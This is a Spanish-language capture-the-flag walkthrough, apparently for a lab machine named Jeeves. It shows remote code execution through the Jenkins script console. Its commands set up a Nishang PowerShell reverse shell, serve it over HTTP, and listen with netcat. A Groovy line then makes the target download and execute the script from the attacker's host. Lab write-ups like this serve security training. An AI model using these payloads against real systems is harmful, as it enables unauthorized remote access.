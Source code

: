 ## Vuln exploit & Gaining Access {-}

### Ganando accesso con Jenkins Consola de scripts {-}

1. Descargamos Nishang y modificamos el fichero de reverse shell por tcp

    ```bash
    git clone https://github.com/samratashok/nishang
    cd nishang/Shells
    cp Invoke-PowerShellTcp.ps1 ../../PS.ps1
    cd ../..
    nano PS.ps1
    ```

    Modificamos el fichero PS.ps1 para añadir `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 443` al final del fichero

1. Compartimos un servicio http con python

    ```bash
    python3 -m http.server 80
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Creamos el Groovy script

    ```bash
    command = "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/PS.ps1')"
    println(command.execute().text)
    ```

Ya hemos ganado accesso al systema. `whoami` -> **jeeves\kohsuke**. Ya podemos leer la flag.